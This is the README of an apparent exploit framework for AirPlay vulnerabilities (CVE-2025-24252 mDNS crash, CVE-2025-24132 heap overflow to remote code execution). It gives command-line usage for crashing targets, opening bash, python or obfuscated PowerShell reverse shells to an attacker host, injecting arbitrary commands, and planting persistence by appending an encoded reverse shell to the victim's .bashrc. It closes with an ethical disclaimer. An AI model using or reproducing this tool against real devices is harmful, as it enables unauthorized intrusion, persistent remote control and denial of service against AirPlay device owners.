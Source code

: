 # AirBorne PoC Framework

## CVEs Covered

### ✅ CVE-2025-24252 – mDNS TXT Record Crash
- Triggers a crash in the AirPlayReceiver daemon via a malformed mDNS packet
- Works over UDP broadcast on port 5353

### ✅ CVE-2025-24132 – Heap Overflow → Reverse Shell (RCE)
- Triggers a heap overflow in AirPlay's TCP service on port 7000
- Supports bash, python, and PowerShell reverse shell payloads
- Includes optional persistence using `.bashrc` injection (Linux)

## Getting Started

### Install Dependencies

```bash
sudo apt update
sudo apt install -y python3-scapy netcat
```

---

## Runtime Walkthrough

The single script `airborne.py` includes both PoCs and all logic:

* Select a CVE using `--exploit`
* Set a reverse shell payload using `--payload`
* Auto-starts a netcat listener for you
* Optionally enables persistence on target using `--persistent`

---

## Usage Examples

### Crash Target with mDNS Packet (CVE-2025-24252)

```bash
sudo python3 airborne.py --exploit 24252 --interface wlan0
```

> Requires an interface in monitor mode.

---

### Launch Heap Overflow → RCE (CVE-2025-24132)

Start full exploit with default bash shell:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99
```

Choose Python shell instead:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99 --payload python
```

Enable real persistence on Linux targets:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99 --persistent
```

Only shell command einjection

```bash
sudo python3 airborne_bash_command_injector.py --exploit 24132 --target 192.168.1.42 --command "command"
```

---

## Payload Options

| Payload      | Description                                         |
| ------------ | --------------------------------------------------- |
| `bash`       | Default bash reverse shell over TCP                 |
| `python`     | Python-based reverse shell using `socket` and `pty` |
| `powershell` | Full Windows PowerShell RCE payload (obfuscated)    |

---

## Persistence Mode

When using `--persistent`, the script will append the encoded reverse shell payload to the target’s:

```bash
~/.bashrc
```

This ensures a shell is returned to you each time the user logs in or a terminal is spawned.

---

## Maintenance Notes

* Reverse shells are encoded using `base64` and delivered after buffer overflow
* All payloads are sent via port 7000
* mDNS packets go over UDP 5353 and require raw socket permission
* Make sure your attack box IP is reachable by the target device
* Script handles basic error cases and fails silently if closed ports

---

## Ethical Disclaimer

**This project is intended for educational, ethical, and authorized research only.**

* You must have explicit permission to test the target system.
* You assume full responsibility for any actions taken.

Unauthorized exploitation of systems is illegal and unethical.


